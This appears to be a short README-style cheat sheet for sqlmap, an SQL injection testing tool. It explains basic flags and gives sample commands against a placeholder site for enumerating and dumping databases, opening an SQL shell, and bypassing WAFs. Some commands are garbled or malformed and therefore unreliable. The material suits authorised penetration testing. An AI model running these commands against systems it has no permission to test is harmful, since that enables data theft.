


SQLMAP

sqlmap is an open source penetration testing tool developed by Bernardo Damele Assumpcao Guimaraes and Miroslav  Stampar that automates the 

process of detecting and exploiting SQLinjection flaws and taking over database servers

PROPERITIES 

SQLMAP comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches lasting from database fingerprinting, fetching data from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

BASICOPTIONSAND THEIRWORK

- -u => allow you to add a URL to the command
- --data =>use to add data to a POST request
- -p username => tell sqlmap to use the username parameter for the attack and -p is used for parameters which is used in command
- -hh => use to show the advanced help menu
- -a => allows you to retrieve everything
- -D =>allows you to select the database name
- --tables => you use to retrieve database tables
- --columns => allows you to retrieve a table’s columns
- --dump-all => allows you to dump all the database table entries
- --sql-shell => give you an interactive SQL Shell prompt
- --dbms=mysql =>allows you to enumerate only MySQL databases

 

COMMANDUSE 

- USINGGET BASEDMETHOD

- sqlmap -u https://testsite.com/page.php?id=7 tables
- sqlmap -u https://testsite.com/page.php?id=7 <table\_name> --columns
- sqlmap -u https://testsite.com/page.php?id=7 

-D <database\_name>-- -D <database\_name> -T -D blood --dump-all

- USINGPOST BASED METHOD
- sqlmap -r <request\_file>-p <vulnerable\_parameter>--dbs
- sqlmap -r req.txt -D <database\_name> -T <table\_name> --columns
- sqlmap -r req.txt -D <database\_name> --dump-all

USE OFSQLMAP

- Detecting SQL Injection Vulnerabilities: Automatically find SQL injection flaws in web applications.
- Extracting Database Information: Retrieve database names, tables, columns, and data from vulnerable databases.
- Bypassing Web Application Firewalls (WAFs): Evade detection and bypass WAFs using tampering scripts and techniques.
- Gaining Shell Access: Exploit vulnerabilities to gain shell access to the database server.
- Automating Tests and Generating Reports: Automate SQL injection tests and generate detailed reports for CI/CD pipelines.
